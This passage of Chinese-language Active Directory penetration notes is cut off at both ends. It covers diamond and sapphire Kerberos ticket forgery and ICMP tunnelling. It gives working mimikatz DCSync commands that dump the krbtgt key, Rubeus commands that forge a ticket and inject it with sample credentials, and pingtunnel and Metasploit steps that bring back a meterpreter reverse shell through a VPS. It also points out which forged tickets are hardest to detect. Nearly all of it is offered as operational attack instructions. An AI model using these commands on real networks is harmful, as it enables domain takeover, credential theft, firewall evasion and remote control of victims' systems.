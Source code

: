   + mimikatz
  + 获取krbtgt用户的aes256密钥
  + mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:rootkit.org /user:krbtgt" "exit"
  + 需要的

    + krbkey:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745
      低权限用户user:micle
      用户密码password:Admin12345
      domain:rootkit.org
      dc:owa2013.xxx.org
      ticketuser:administrator //伪造的票据用户名可以任意，不需要域中存在该用户
  + rubeus.exe 重新构造TGT 后注入

    + Rubeus.exe diamond /krbkey:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /user:micle /password:Admin12345 /enctype:aes /domain:rootkit.org /dc:owa2013.xxx.org /ticketuser:test123 /ptt /nowrap
    + Rubeus.exe asktgs /ticket:doIFMjCCEyM6MHAwUAQOEAAKURGA8yMDI0MDIwNTA0Mjk0OFqmERgPMjAyNDAyMDUxNDI5NDhapxEYDzIwMjQwMjEyMDQyOTQ4WqgNGwtST09US0lULk9SR6kgMB6gAwIBAqEXMBUbBmtyYnRndBsLUk9PVEtJVC5PUkc= /service:cifs/owa2013.xxx.org /ptt /nowrap
+ 对比

  + 相比黄金票据更隐蔽，因为申请的TGT是真实的，我们只修改了PAC

### 蓝宝石票据

+ 简介
  + 蓝宝石票据与钻石票据类似，票据不是伪造的，而是通过请求后获得的合法票据。他们的区别在于 `PAC`的修改方式。钻石票据是修改了合法 `PAC`以添加特权组。在蓝宝石票据中，高权限用户 `PAC`是通过
    `S4U2Self+U2U`获得的，然后该 `PAC`会替换原来的 `PAC`，由于该票据是完全合法元素组合起来的，所以是最难检测的票据。

## 域渗透隧道

+ ICMP
  + 简介
    + 报文协议，用于传递控制消息(错误报告，操作请求，网络诊断等)
    + ICMP可包装TCP/UDP数据到PING包内，FW不会屏蔽PING包，实现不受限访问
  + 工具
    + Pingtunnel [https://github.com/esrrhs/pingtunnel](https://github.com/esrrhs/pingtunnel)
      + VPS
        + ./pingtunnel -type server -key [只能为数字]
      + Client
        + pingtunnel.exe -type client -l :2222 -s [vps_ip] -t [vps_ip:3333] -tcp  1 -noprint 1 -nolog 1 -key 0000
        + 本地的2222端口转发到vps的ICMP端口 使用tcp协议
      + 上线MSF
        + ```
          msf利用icmp隧道反向出网获取shell
          kali执行pingtunnel运行服务端
          ./pingtunnel -type server -noprint 1 -nolog 1 &
          kali执行msf监听
          use exploit/multi/handler
          set payload linux/x64/meterpreter_reverse_tcp
          set lhost 192.168.1.5
          set lport 7777
          run
